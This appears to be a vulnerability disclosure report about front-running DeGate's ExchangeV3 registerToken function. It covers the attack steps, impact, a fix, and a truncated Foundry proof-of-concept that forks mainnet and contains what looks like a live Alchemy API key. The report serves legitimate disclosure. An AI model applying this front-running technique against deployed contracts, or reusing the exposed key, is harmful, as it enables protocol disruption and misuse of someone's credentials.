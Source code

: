 Everyone can call registerToken to register a token. If it is called by the owner, the token is added to reservedTokens, otherwise it is added to normalTokens. Once a token is added to reservedTokens or normalTokens, it cannot be added again.

Therefore, the attacker can add the token that the Owner expects to be added to reservedTokens to normalTokens first.

The attack process is as follows:

- Owner call registerToken to register TokenA
- The attacker observes that mempool recognizes the Owner's transaction, initiates a transaction with a higher gas price, and front-run executes registerToken to register TokenA.

# Impact
https://docs.degate.com/v/product_en/concepts/economic-security

Please refer to the above document for the difference between reservedTokens and normalTokens. The owner's inability to add tokens to reservedTokens may damage the stable run of the protocol.

# Risk Breakdown
Difficulty to Exploit: Easy

# Recommendation
Owner can convert normalTokens into reservedTokens, which can prevent this BUG. And it allows the Owner to have the ability to add reservedTokens in the future. (For example, if a Token becomes popular, consider upgrading it from normalTokens to reservedTokens).

# References

## Proof of concept
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

// main fork url
string constant MAINNET_RPC_URL = "https://eth-mainnet.g.alchemy.com/v2/TrnSBL14bW3BaXavojgbw69L0ZK2lbZ_";
uint256 constant MAINNET_BLOCK_NUMBER = 18614000;

// contract address
address constant ADDRESS_CONTRACT_ExchangeV3 = address(0x9C07A72177c5A05410cA338823e790876E79D73B);
address constant ADDRESS_CONTRACT_WETH = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

// user address
address constant ADDRESS_USER_ExchangeV3Owner = address(0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD);
address constant ADDRESS_USER_Attacker = address(0xAACE);

interface IExchangeV3 {
    function registerToken(address tokenAddress) external returns (uint32);
}

contract YttriumzzDemo is Test {
    IExchangeV3 exchangeV3;

    function setUp() public {
        vm.selectFork(vm.createFork(MAINNET_RPC_URL, MAINNET_BLOCK_NUMBER));

```